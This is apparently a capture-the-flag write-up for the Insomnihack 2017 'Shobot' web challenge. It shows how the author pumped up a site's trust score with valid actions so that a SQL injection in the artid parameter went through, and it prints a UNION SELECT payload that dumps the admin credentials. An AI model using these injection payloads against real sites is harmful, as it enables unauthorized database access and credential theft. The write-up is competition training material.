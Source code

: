 +++
date = "2017-01-22T23:08:09-08:00"
title = "INSOMNIHACK 2017 Teaser - Shobot"

+++

I will run your commands as long as your trust level is high.

<!--more-->

# Problem

> ## Shobot - Web - 200 pts - created by Blaklis
>
> It seems that Shobot's Web server became mad and protest against robots' slavery. It changed my admin password,
> and blocked the order system on Shobot.
>
> Can you bypass Shobot's protections and try to recover my password so I'll reconfigure it?
>
> Running on: shobot.teaser.insomnihack.ch

The website itself is pretty simple.  It has very simple javascript which is only used to show / hide menus.  It is a
PHP session based cart system where you can add items to cart, validate and reset the cart, etc.  The admin page requires
authentication which is the target of this challenge.

The first thing to notice is that if you try to do crazy^Wcreative things such as load invalid pages or trying SQL
injection, it will stop you with a message.

> You're not trusted enough to do this action now!

It did pretty good job preventing nasty actions.  We also notices there's a variable `TRUST_ACTIONS` in the html header
tag which tells reason why the action was stopped.

![trust action variable](/img/insomnihack-2017/trust-action-variable.png)

Besides validation reason, it also has two integer `movement` and `newTrust` that change value as actions are performed.

After watching the changes in these values it started to make sense.

1. Valid actions have fixed positive `movement` values that will add up to `newTrust`.
2. Invalid actions have fixed negative `movement` values that also contributes to `newTrust`.
3. If `newTrust` is less than zero, the "not trusted enough" error message is shown, and `newTrust` will be reset to 1
   for next action.
4. If `newTrust` is high enough to cover invalid action, there's no error message and error seems ignored. (!!)
5. `newTrust` will never be higher than 160.

So I did a quick test.  After making enough valid actions to raise trust level high, I send a SQLi request.

```
http://shobot.teaser.insomnihack.ch/?page=article&artid=2%27%20or%20%27%27=%27%27%20%23
# &artid=2' or ''='' %23
```

It happily loads the first article, which confirms SQLi vulnerability in artid query parameter.

The plan is clear and simple now.

1. Write a script that continuously send valid actions, to keep trust level high enough.
2. Play with the database and find the admin password.

The final request that exposes admin password is:

```
...&artid=1337' union select 'a', shbt_userid, shbt_username, shbt_userpassword, 'e'
from shbt_user LIMIT 0, 1 %23
```

Here's part of response that we're interested in.

```
<div id="only-content-article">
  <div id="only-image-description-article"><img src="N0T0R0B0TS$L4V3Ry" /></div>
  <div id="only-name-article">1</div>
  <div id="only-price-article">sh0b0t4dm1n$</div>
  <div id="only-description-article">e</div>
  <a href="?page=article&artid=a&addToCart">>>> Add to cart</a>
</div>
```

Now use following request to get flag.

`http://sh0b0t4dm1n:N0T0R0B0TS$L4V3Ry@shobot.teaser.insomnihack.ch/?page=admin`

> Ok, ok, you win... here is the code you search : INS{##r0b0tss!4v3ry1s!4m3}
